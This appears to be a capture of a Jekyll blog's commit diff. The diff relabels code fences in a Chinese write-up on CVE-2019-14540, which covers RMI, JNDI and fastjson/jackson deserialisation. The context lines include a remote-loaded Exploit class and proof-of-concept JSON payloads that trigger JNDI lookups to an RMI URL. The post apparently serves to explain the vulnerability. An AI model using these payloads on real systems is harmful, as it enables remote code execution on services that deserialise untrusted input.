

Before and after one commit to Curz0n/curz0n.github.io, a Jekyll site: the page built from _posts/2019-09-20-cve-2019-14540.md, in a window 1280 px wide and 1400 px high, scrolled down 3054 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
java syntax highlight

````diff
--- a/_posts/2019-09-20-cve-2019-14540.md
+++ b/_posts/2019-09-20-cve-2019-14540.md
@@ -62,7 +62,7 @@ RMIServerDemo
 
 **定义远程接口RmiSample.java**
 
-```JAVA
+```java
 package com.rmitest;
 
 import java.rmi.Remote;
@@ -77,7 +77,7 @@ public interface RmiSample extends Remote{
 
 **实现远程接口RmiSampleImpl.java**
 
-```JAVA
+```java
 package com.rmitest;
 
 import java.rmi.RemoteException;
@@ -99,7 +99,7 @@ public class RmiSampleImpl extends UnicastRemoteObject implements RmiSample{
 
 **服务器程序RmiSampleServer.java**
 
-```JAVA
+```java
 package com.rmitest;
 
 import java.rmi.Naming;
@@ -152,7 +152,7 @@ RMIClientDemo
 
 **客户端程序RmiSampleClient.java**
 
-```JAVA
+```java
 package com.rmitest;
 
 import java.rmi.registry.LocateRegistry;
@@ -183,7 +183,7 @@ public class RmiSampleClient {
 
 定义类Exploit，在其构造方法中启动计算器应用，让RMI动态加载该类，Exploit.java代码如下:
 
-```JAVA
+```java
 public class Exploit {
     public Exploit() {
         try {
@@ -203,7 +203,7 @@ public class Exploit {
 
 使用javac命令把Exploit.java编译成class文件，然后放到web服务器中。修改Demo工程RMIServerDemo的SmiSampleServer.java代码，让RMI服务器程序动态加载class文件，具体代码实现如下：
 
-```JAVA
+```java
 package com.rmitest;
 
 import java.rmi.registry.LocateRegistry;
@@ -253,7 +253,7 @@ JNDI（Java Naming and Directory Interface）,翻译成中文叫Java命名和目
 
 修改RMIClientDemo工程中客户端程序代码，使用JNDI来管理RMI，新建RmiSampleClientJndiTest.java，代码具体实现如下：
 
-```JAVA
+```java
 package com.rmitest;
 
 import java.util.Hashtable;
@@ -289,7 +289,7 @@ public class RmiSampleClientJndi {
 
 从代码实现可以看出，要使用JNDI管理RMI，还需要先设置一堆配置信息，显得非常麻烦，为了方便简洁，JNDI还支持不绑定环境信息，直接初始化上下文。新建RmiSampleClientJndi.java，代码具体实现如下：
 
-```JAVA
+```java
 package com.rmitest;
 
 import javax.naming.Context;
@@ -327,7 +327,7 @@ public class RmiSampleClientJndi {
 
 fastjson使用详情可以参考官方[WiKi](https://github.com/alibaba/fastjson/wiki/Quick-Start-CN)，重点来关注反序列化的使用方法。首先定义一个User类：
 
-```JAVA
+```java
 public class User {
     private int age;
     private String name;
@@ -350,7 +350,7 @@ public class User {
 
 使用fastjson反序列化一段文本字符串：
 
-```JAVA
+```java
     public static void main(String[] args) {
         //使用@type指定该JSON字符串应该还原成何种类型的对象
         String userInfo = "{\"@type\":\"com.cve20191454.User\",\"name\":\"curz0n\", \"age\":18}";
@@ -380,7 +380,7 @@ CVE-2019-14540漏洞详情可以查看Jackson官方[issues/2410](https://github.
 
 **setMetricRegistry方法**
 
-```JAVA
+```java
    public void setMetricRegistry(Object metricRegistry)
    {
       if (metricsTrackerFactory != null) {
@@ -404,7 +404,7 @@ CVE-2019-14540漏洞详情可以查看Jackson官方[issues/2410](https://github.
 
 **getObjectOrPerformJndiLookup方法**
 
-```JAVA
+```java
    private Object getObjectOrPerformJndiLookup(Object object)
    {
       if (object instanceof String) {
@@ -422,7 +422,7 @@ CVE-2019-14540漏洞详情可以查看Jackson官方[issues/2410](https://github.
 
 熟悉JNDI Reference注入漏洞的同学一看代码就明白怎么回事了，getObjectOrPerformJndiLookup方法中直接初始化了上下文并调用lookup方法，传入lookup方法的参数就是setMetricRegistry方法的参数，因为使用fastjson/jackson反序列化对象时可以控制传入setXXX方法的参数，且setXXX方法会被自动调用，所以可以结合JNDI Reference注入漏洞构造poc如下：
 
-```JAVA
+```java
 String poc = "{\"@type\":\"com.zaxxer.hikari.HikariConfig\",\"metricRegistry\":\"rmi://127.0.0.1:1099/Exploit-SERVER\"}";
 ```
 
@@ -440,7 +440,7 @@ String poc = "{\"@type\":\"com.zaxxer.hikari.HikariConfig\",\"metricRegistry\":\
 
 使用jackson反序列化同理，poc如下：
 
-```JAVA
+```java
 ObjectMapper mapper = new ObjectMapper();
 mapper.enableDefaultTyping();
 mapper.readValue("[\"com.zaxxer.hikari.HikariConfig\", {\"metricRegistry\":\"rmi://127.0.0.1:1099/Exploit-SERVER\"}]".getBytes(), Object.class);
````
